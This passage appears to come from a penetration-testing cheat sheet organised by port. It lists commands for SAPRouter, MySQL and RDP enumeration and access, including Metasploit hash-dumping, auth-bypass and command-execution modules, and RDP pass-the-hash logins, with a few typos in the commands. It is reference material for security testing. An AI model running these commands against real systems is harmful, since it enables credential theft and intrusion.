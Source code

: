 ```bash
# logout
iscsiadm -m node --targetname="iqn.1992-05.com.emc:fl1001433000190000-3-vnxe" -p 123.123.123.123:3260 --logout

```

### Port 3299 - SAPRouter

Copy of: https://blog.rapid7.com/2014/01/09/piercing-saprouter-with-metasploit/
```bash
msf> use auxiliary/scanner/sap/sap_service_discovery
msf auxiliary(sap_service_discovery) > set RHOSTS $IP
RHOSTS => $IP
msf auxiliary(sap_service_discovery) > run

[*] [SAP] Beginning service Discovery '1.2.3.101'

[+] 1.2.3.101:3299      - SAP Router OPEN
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf > use auxiliary/scanner/sap/sap_router_info_request

```

### MySQL - 3306
```bash
# Enumeration
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $IP
msf> use auxiliary/scanner/mysql/mysql_version
msf> use uxiliary/scanner/mysql/mysql_authbypass_hashdump
msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
msf> use auxiliary/admin/mysql/mysql_enum #Creds
msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds

# Connect Remote
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost

```
### Port 3339 - Oracle web interface

Basic info about web service (apache, nginx, IIS)

### Port 3389 - RDP
```bash
# enum
nmap -p 3389 --script=rdp-vuln-ms12-020.nse $IP
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>

# Connect with known credetials/hash
rdesktop -u <username> $IP
rdesktop -d <domain> -u <username> -p <password> $IP
xfreerdp /u:[domain\]<username> /p:<password> /v:$IPP
xfreerdp /u:[domain\]<username> /pth:<hash> /v:$IP

# Check known credentials
rdp_check <domain>\<name>:<password>@$IP

[Post-Exploitation](https://github.com/JoelGMSec/AutoRDPwn)

```